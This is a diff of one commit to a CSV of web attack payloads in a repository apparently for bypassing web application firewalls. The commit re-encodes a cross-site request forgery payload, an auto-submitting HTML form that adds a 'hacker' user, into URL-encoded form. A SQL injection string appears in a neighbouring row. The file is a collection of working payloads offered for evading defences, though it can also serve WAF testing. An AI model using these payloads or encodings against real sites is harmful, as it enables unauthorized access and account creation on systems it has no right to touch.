

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -493,2 +493,2 @@ https://vulners.com/github/GHSA-GP6M-FQ6H-CJCX?utm_source=rss&utm_medium=rss&utm
 https://vulners.com/cve/CVE-2024-1923?utm_source=rss&utm_medium=rss&utm_campaign=rss," 1337&#x27;+or+1=1;--+",sqli
-https://vulners.com/github/GHSA-PGPJ-V85Q-H5FM?utm_source=rss&utm_medium=rss&utm_campaign=rss,`&lt;html&gt; &lt;body&gt; &lt;form action="http://localhost:8000/api/add_user/%22hacker%22,%22hacker%22"&gt; &lt;input type="submit" value="Submit request" /&gt; &lt;/form&gt; &lt;script&gt; history.pushState('', '', '/'); document.forms[0].submit(); &lt;/script&gt; &lt;/body&gt; &lt;/html&gt;`,xss
+https://vulners.com/github/GHSA-PGPJ-V85Q-H5FM?utm_source=rss&utm_medium=rss&utm_campaign=rss,%26lt%3Bhtml%26gt%3B%20%26lt%3Bbody%26gt%3B%20%26lt%3Bform%20action%3D%22http%3A%2F%2Flocalhost%3A8000%2Fapi%2Fadd_user%2F%2522hacker%2522%2C%2522hacker%2522%22%26gt%3B%20%26lt%3Binput%20type%3D%22submit%22%20value%3D%22Submit%20request%22%20%2F%26gt%3B%20%26lt%3B%2Fform%26gt%3B%20%26lt%3Bscript%26gt%3B%20history.pushState%28%27%27%2C%20%27%27%2C%20%27%2F%27%29%3B%20document.forms%5B0%5D.submit%28%29%3B%20%26lt%3B%2Fscript%26gt%3B%20%26lt%3B%2Fbody%26gt%3B%20%26lt%3B%2Fhtml%26gt%3B,xss
```
